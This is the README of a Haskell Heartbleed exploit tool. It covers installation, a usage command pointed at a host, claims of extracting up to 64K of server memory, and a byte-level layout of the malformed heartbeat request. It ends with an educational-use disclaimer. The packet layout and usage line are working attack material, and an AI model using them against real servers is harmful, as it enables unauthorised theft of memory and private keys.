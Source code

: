 haskell-heartbleed: Implementation of OpenSSL Heartbeat bug exploit in Haskell
==============================================================================

Requirements and Insallation
----------------------------

This program depends on a couple packages, besides GHC of course:

* `Options <http://hackage.haskell.org/package/options>`_ - for argument parsing
* `Repa <http://hackage.haskell.org/package/repa>`_ - for searching through
memory chunks in parallel.
* `tls (customized) <https://github.com/lehins/hs-tls>`_ - version of `tls
  <http://hackage.haskell.org/package/tls>`_ library with hearbeat feature added
  to it.

Here is installation and compilation instructions (llvm is required for Repa):

.. code-block:: bash

   ~$ sudo apt-get update && sudo apt-get install llvm
   ~$ cabal update && cabal install Options repa
   ~$ git clone https://github.com/lehins/hs-tls
   ~$ cd hs-tls/core
   ~/hs-tls/core$ cabal install
   ~/hs-tls/core$ cd ..
   ~$ rm -R hs-tls
   ~$ git clone https://github.com/lehins/haskell-heartbleed
   ~$ cd haskell-heartbleed
   ~/haskell-heartbleed$ make
   ~/haskell-heartbleed$ ./heartbleed --help                

Example Usage
-------------

.. code-block:: bash
     
   $ ./heartbleed --host example.com --times 10 +RTS -N

Features
--------

Can extract up to 64K of random memory from a server running vulnerable version
of OpenSSL. Unlike most heartbleed implementations, all requests and responses
are transmitted over encrypted TLS connection. Moreover, same TLS connection is
reused for heartbeat requests, until it is dropped by the server, in which case
it is automatically reestablished. Making this implementation blazingly fast.

Still working on ability to retreive private keys from the memory chunks.                

Overview of Heartbeat Request
-----------------------------

Legitimate request and response::

                             _ Size of the payload  _Payload "foo"
    Request__               /                ______/
             \             /                /
    (..) [0x01] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes random padding] 

    Response_
             \
    (..) [0x02] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes other random padding] 

Request that exploits the bug, requesting 64K of memory from the server, notice
missing padding::
     
    
       _ Heartbeat      _TLS v1.0   _Message size  _Heartbeat Request  _Payload Size
      /                /           /      ________/   ________________/
     /                /           /      /           /
    [0x18] [0x03 0x01] [0x00 0x03] [0x01] [0xFF 0xFF]


Disclaimer
----------

This program was written for educational purpose only. Pointing this program at
any computer without prior agreement can be considered illegal and might cause
legal action, prosecution, fines and/or imprisonment. Use it at your own risk.
